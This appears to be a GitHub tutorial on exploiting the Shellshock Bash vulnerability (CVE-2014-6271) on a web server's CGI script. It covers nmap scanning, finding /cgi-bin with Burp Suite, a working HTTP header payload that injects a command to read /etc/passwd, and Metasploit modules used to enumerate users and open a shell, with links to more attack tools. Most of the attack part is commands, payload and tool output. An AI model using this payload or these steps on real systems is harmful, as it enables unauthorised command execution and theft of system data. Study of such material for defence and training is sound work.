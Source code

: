 # ShellShock Exploitation
In September 2014, when a single security bug in Bash was disclosed there was chaos in the security community. [Bash](https://null-byte.wonderhowto.com/how-to/hack-like-pro-scripting-for-aspiring-hacker-part-1-bash-basics-0149422/) is a shell, or interpreter, that allows commands to be run on a system, typically via a text window. It usually is the default shell on Unix systems, and as such, can be found on Linux, [macOS](https://mac-how-to.gadgethacks.com/how-to/every-mac-is-vulnerable-shellshock-bash-exploit-heres-patch-os-x-0157606/), and other various Unix flavors. This is why Shellshock is so severe — over half the [web servers](https://null-byte.wonderhowto.com/how-to/hack-like-pro-linux-basics-for-aspiring-hacker-part-11-apache-web-servers-0148695/) on the internet are running Unix, not to mention a myriad of [IoT devices](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-disabling-security-cameras-any-wireless-network-with-aireplay-ng-0185435/) and even some [routers](https://null-byte.wonderhowto.com/how-to/hack-like-pro-find-any-routers-web-interface-using-shodan-0154660/).

This bug allowed attackers to escalate privileges and execute arbitrary code on a remote machine. It affected most versions of Linux and UNIX-based OSes and (obviously) was considered a critical vulnerability.

Even though Bash is not an internet-facing service, many internet and network services such as web servers use environment variables to communicate with the server's operating system.Since the environment variables are not sanitized properly by Bash before being executed, the attacker can send commands to the server through HTTP requests and get them executed by the web server operating system. The shellshock vulnerability, discovered by Stephane Chazelas was assigned the CVE identifier CVE-2014-6271. A similar bug with identical consequences was discovered by Tavis Ormandy and was assigned the CVE identifier CVE-2014-7169.


# Enumeration of Services

So lets scan the target machine using nmap 

``nmap <target ip>``

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/nmap.png)
okay, so we found http service open so let browse and see what we get from there

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/browser.png)
As we know that For this exploit to work, there needs to be an executable script located in the /cgi-bin directory.

There is a option in burp to discover content so lets intercept the target and use burpsuite.
> right click on target  > engagement tool >discover content 

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/burp.png)
We can see that we have cgi-bin folder 
![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/burp_content.png)

Let send the request in Repeater and try to view the file
![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/Burp_repeat.png)
Okay now lets crafts an HTTP request that contains the below headers:

`GET http://test.com/cgi-bin/test.cgi HTTP/1.1`  
`User-Agent: google`  
`Host: test.com`  
`Referer: () { :;}; echo "NS:" $(</etc/passwd)`

Once the target server receives the HTTP request with the above headers, it responds by sending the content of the file /etc/passwd, as seen in the below HTTP response:
![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/burp_enum.png)
What does this mean? The attacker was able to execute operating system commands through an HTTP request. An attacker can use any other command that allows him to take full control of the server.

>Similarly we can use metasploit to enumerate the users and exploits 

open msfconsole in terminal using `msfconsole`

Search for shellshock 

``msf5  > search shellshock``

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/Meta_enum.png)
use cgi auxillary as we confirmed the cgi file is present
```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 auxiliary(scanner/http/apache_mod_cgi_bash_env) > show options

Module options (auxiliary/scanner/http/apache_mod_cgi_bash_env):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CMD        /usr/bin/id      yes       Command to run (absolute paths required)
   CVE        CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER     User-Agent       yes       HTTP header to use
   METHOD     GET              yes       HTTP method to use
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI                   yes       Path to CGI script
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

```
we need to set the required field like rhost,targeturi to run the scanner

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/Meta_enum2.png)
We succesfully enumerated user with there id.

# Exploitation of Services

As we know that apache cgi module is vulnerable we can use apache exploit
So we need to follow same steps as enumeration and will get the shell.

![enter image description here](https://raw.githubusercontent.com/shubham381/ShellShock/master/meta%20exploit.png)

> Tools for Reference:
https://github.com/nccgroup/shocker.git
https://github.com/0xICF/ShellScan.git
